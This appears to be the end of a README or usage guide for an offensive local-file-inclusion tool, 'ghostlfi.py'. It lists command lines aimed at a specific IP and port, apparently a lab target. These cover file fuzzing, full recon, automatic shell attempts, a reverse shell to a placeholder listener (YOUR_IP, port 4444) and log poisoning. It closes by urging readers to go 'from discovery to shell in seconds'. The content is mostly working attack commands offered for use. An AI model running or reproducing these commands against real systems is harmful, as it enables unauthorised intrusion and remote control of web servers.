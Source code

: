 ```bash
# File discovery
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --fuzz-files

# Complete recon
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --fuzz-all

# Quick shell attempt
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --auto --shell

# Reverse shell (replace YOUR_IP)
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --auto --revshell --lhost YOUR_IP --lport 4444

# Log poisoning
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --test-log-poison
```

---

**Ghost Ops Security** | Exploitation Guide 👻

**Next Step:** Run file fuzzing or auto-exploitation!

**Recommended:** `python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --auto --shell`

**From discovery to shell in seconds!** 💪🎯🔥
